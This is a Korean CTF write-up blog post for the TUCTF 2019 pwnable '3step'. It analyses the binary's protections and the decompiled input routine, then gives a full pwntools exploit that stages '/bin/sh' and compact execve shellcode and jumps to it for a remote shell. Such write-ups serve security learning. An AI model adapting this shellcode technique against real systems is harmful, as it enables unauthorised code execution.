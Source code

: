 +++
title = "TUCTF 2019 Pwnable 3step"
subtitle = "3step"

# Add a summary to display on homepage (optional).
summary = "pwnable 3step"

date = "2019-12-03T03:33:19+09:00"
publishDate = "2019-12-03T03:33:19+09:00"
expiryDate = ""

# Authors. Comma separated list, e.g. `["Bob Smith", "David Jones"]`.
authors = []

# Tags and categories
# For example, use `tags = []` for no tags, or the form `tags = ["A Tag", "Another Tag"]` for one or more tags.
tags = ['CTF', '2019', 'pwn', '3step']
categories = ['PWN']
keywords = ['CTF', '2019', 'pwn', '3step']

# Projects (optional).
#   Associate this post with one or more of your projects.
#   Simply enter your project's folder or file name without extension.
#   E.g. `projects = ["deep-learning"]` references 
#   `content/project/deep-learning/index.md`.
#   Otherwise, set `projects = []`.
# projects = ["internal-project"]

# Featured image
# To use, add an image named `featured.jpg/png` to your page's folder. 
[image]
  # Caption (optional)
  caption = ""

  # Focal point (optional)
  # Options: Smart, Center, TopLeft, Top, TopRight, Left, Right, BottomLeft, Bottom, BottomRight
  focal_point = ""

draft = false
+++

32bit 바이너리 `3step`와 접속 정보 `nc chal.tuctf.com 30504`가 주어졌습니다.
```py
>>> e = ELF('./3step')
[*] '/root/ctf/2019/tu/pwn/3step/3step'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```
i386 바이너리이고  
Full RELRO 이므로 GOT Overwrite는 아니며  
Canary가 있으므로 BOF는 아니고  
NX bit가 해제되어 있고 RWX 세그먼트가 있으므로 100% 스택에 쉘코드 실행 가능합니다.   
<br>

```plain
j3rrry@kali:3step# nc chal.tuctf.com 30504
Welcome to our 3-step program!
Try out complimentary snacks
0x5665000c
0xffb5c08c

Step 1: j3rrry
Step 2: j4rrry
Step 3: j5rrry
```
문제 서버에 접속해보면 16진수 2개를 알려준 다음 3 Step에 걸쳐서 입력을 받습니다.  
<br>

```c
void __cdecl pwnme()
{
  void (*v0)(void); // [sp+8h] [bp-20h]@1
  char buf; // [sp+Ch] [bp-1Ch]@1
  int v2; // [sp+1Ch] [bp-Ch]@1

  v2 = *MK_FP(__GS__, 20);
  puts("Try out complimentary snacks");
  printf("%p\n", &buf1);
  printf("%p\n\n", &buf);
  printf("Step 1: ");
  read(0, &buf1, 0x12);
  printf("Step 2: ");
  read(0, &buf, 0x10);
  printf("Step 3: ");
  read(0, &v0, 4);
  v0();
  if ( *MK_FP(__GS__, 20) != v2 )
    _stack_chk_fail_local();
}
```
바이너리를 디스어셈블링 해보면  
buf1과 buf의 주소를 출력해준다는 것을 알 수 있습니다.  
buf1은 bss 영역, buf는 스택 영역입니다.  
  
그리고 입력을 받는데 길이제한이 0x12, 0x10, 4로 매우 작습니다.  
쉘코드를 경량화하도록 커스텀을 해야하는데요.  
  
저는 다음과 같이 했습니다.  
Step 1: bss 영역에 '/bin/sh' 문자열 삽입  
Step 2: 스택 영역에 쉘코드 삽입  
Step 3: 삽입된 쉘코드 오프셋  

# Exploit
```py
from pwn import *

def start():
    e = ELF('./3step')
    r = remote('chal.tuctf.com', 30504)

    return e, r

def info():
    r.recvuntil('0x')
    bss = int(r.recvline(), 16)
    stack = int(r.recvline(), 16)
    log.info(hex(bss) + ' bss')
    log.info(hex(stack) + ' stack')

    return bss, stack

def step1():
    r.recvuntil(': ')
    r.send('/bin/sh')

def step2():
    r.recvuntil(': ')
    r.send(shellcode)

def step3():
    r.recvuntil(': ')
    r.send(p32(stack))

if __name__ == '__main__':
    e, r = start()
    bss, stack = info()

    shellcode = '''
        mov ebx, {}
        xor ecx, ecx
        xor edx, edx
        xor eax, eax
        mov al, 0xb
        int 0x80
        mov al, 0xb
        int 0x80
    '''.format(bss)
    shellcode = asm(shellcode)

    step1()
    step2()
    step3()

    r.interactive()
```
